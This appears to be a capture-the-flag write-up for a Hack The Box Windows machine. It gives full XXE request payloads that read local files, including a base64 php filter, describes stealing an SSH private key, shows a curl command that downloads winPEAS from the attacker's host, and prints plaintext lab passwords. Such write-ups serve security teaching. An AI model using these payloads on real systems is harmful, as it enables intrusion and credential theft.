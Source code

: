 ![[Pasted image 20210426114453.png]]

Starting with a basic nmap scan

`nmap -sC -sV 10.10.10.49`

![[Pasted image 20210426120258.png]]

We have the port 80 open 

![[Pasted image 20210426173153.png]]

We have the credentials we got from the login.sql file from the previous box

username : `Daniel`

password : `>SNDv*2wzLWf`

The credentials worked and we got a interface 

![[Pasted image 20210426173630.png]]

In the source code we can see that the file was edited by the user Daniel

![[Pasted image 20210426174648.png]]

Viewing the request in the burpsuite we find that the web-app is using the XML format to transfer data 

![[Pasted image 20210426174933.png]]

![[Pasted image 20210426175221.png]]

```
POST /process.php HTTP/1.1
Host: 10.10.10.49
Content-Length: 109
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: text/xml
Accept: */*
Origin: http://10.10.10.49
Referer: http://10.10.10.49/services.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0303ik7g28fru0f6bae0aql3hv
Connection: close

<?xml version = "1.0"?>
<!DOCTYPE test [ <!ENTITY name SYSTEM "file:///c:/users/daniel/Desktop/user.txt">]>
<order><quantity>3</quantity><item>
&name;
</item><address>AA</address></order>
```

We get the user.txt flag in the response 

![[Pasted image 20210426175420.png]]

Now we can use the XXE to view the xampp installation's db.php file 
But first we need to apply a php filter which will encode and view the content of the file db.php

![[Pasted image 20210426180312.png]]

```
POST /process.php HTTP/1.1
Host: 10.10.10.49
Content-Length: 217
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: text/xml
Accept: */*
Origin: http://10.10.10.49
Referer: http://10.10.10.49/services.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0303ik7g28fru0f6bae0aql3hv
Connection: close

<?xml version = "1.0"?>
<!DOCTYPE test [ <!ENTITY name SYSTEM "php://filter/convert.base64-encode/resource=c:/xampp/htdocs/db.php">]>
<order><quantity>3</quantity><item>
&name;
</item><address>AA</address></order>
```

![[Pasted image 20210426180338.png]]

Now as we have ssh enabled , we have a username and also the XXE vulnerability 
we can read the contents of the Daniel user's private ssh key , which we can then use to ssh into the daniel user

![[Pasted image 20210426180749.png]]

Save the file id_rsa , change the file permissions to 600 

![[Pasted image 20210426181106.png]]

`curl http://10.10.17.67:800/winPEASx64.exe -OutFile C:\Users\Daniel\Desktop\winpeas.exe`

We get the winpeas file and after executig it we fin the password for the Administrator user in plain texet 

![[Pasted image 20210426182628.png]]

Username : `Administrator`

Password :`Yhk}QE&j<3M`

![[Pasted image 20210426182903.png]]

